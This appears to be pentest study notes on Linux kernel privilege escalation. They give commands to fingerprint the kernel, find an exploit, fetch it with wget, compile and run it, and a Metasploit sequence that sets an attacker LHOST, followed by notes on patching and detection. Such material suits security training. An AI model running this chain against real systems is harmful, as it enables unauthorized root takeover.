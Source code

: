 
### Check Kernel Version and OS Details
```bash
uname -a
cat /etc/lsb-release  # or cat /etc/os-release or cat /proc/version
```

### Search for Kernel Exploits (example)
```bash
searchsploit "Linux kernel 4.4.0-116" # If searchsploit is installed.
```

### Online Search for Exploits
```bash
# Google: linux 4.4.0-116-generic exploit
# Exploit-DB: search for "4.4.0-116"
```

### Download Exploit (example using wget)
```bash
wget <exploit_url>
```

### Compile Exploit (example)
```bash
gcc <exploit_file>.c -o <exploit_binary>
```

### Set Executable Permissions
```bash
chmod +x <exploit_binary>
```

### Run Exploit
```bash
./<exploit_binary>
```

### Verify Root Access
```bash
whoami
id
```

### Example if Using Metasploit
```bash
msfconsole
search type:exploit platform:linux kernel <kernel version>
use <exploit path>
show options
set SESSION <session number>
set LHOST <attacker ip>
set LPORT <attacker port>
exploit
```


# **Key Concepts:**

- **Kernel Exploits:**
    - Exploit vulnerabilities in the Linux kernel.
    - Gain root privileges.
    - Examples: Dirty COW (CVE-2016-5195).
- **Vulnerability Identification:**
    - `uname -a`: Display kernel version.
    - Search online for known exploits.
- **Exploitation Process:**
    - Download exploit code.
    - Compile with `gcc`.
    - Execute the exploit.

**Exploitation Steps (as described):**

1. **Identify Kernel Version:**
    - `uname -a`
    - `cat /etc/lsb-release`
2. **Search for Exploits:**
    - Google search with kernel version.
3. **Download Exploit:**
    - `wget` or other file transfer methods.
4. **Compile Exploit:**
    - `gcc <exploit_file>.c -o <exploit_binary>`
5. **Set Executable Permissions:**
    - `chmod +x <exploit_binary>`
6. **Run Exploit:**
    - `./<exploit_binary>`
7. **Verify Root Access:**
    - `whoami`

**Important Considerations and Enhancements:**

- **Kernel Exploit Reliability:**
    - Exploit success depends on kernel version, distribution, and patches.
    - Exploits may not always work as expected.
- **System Stability:**
    - Kernel exploits can cause system crashes or instability.
    - Use with caution, especially on production systems.
- **Exploit Sources:**
    - Be cautious when downloading exploits from untrusted sources.
    - Use reputable sources like Exploit-DB or GitHub.
- **Vulnerability Databases:**
    - Use vulnerability databases (e.g., CVE Details, NVD) to find kernel vulnerabilities.
- **Metasploit:**
    - Metasploit framework has many kernel exploits built in.
- **Kernel Hardening:**
    - Kernel hardening techniques can prevent or mitigate kernel exploits.
- **Patching:**
    - The best mitigation is to patch the kernel to the latest version.
- **Exploit Modifications:**
    - Sometimes, kernel exploits need to be modified for a specific kernel version or distribution.
- **Detection:**
    - Intrusion detection systems can help detect kernel exploit attempts.
    - Monitoring system calls can also help.
- **Real world examples:** Researching real world kernel exploits will help solidify understanding of the attack vectors.
- **Specific exploit details:** When possible, including the specific cve number, and name of the exploit is helpful.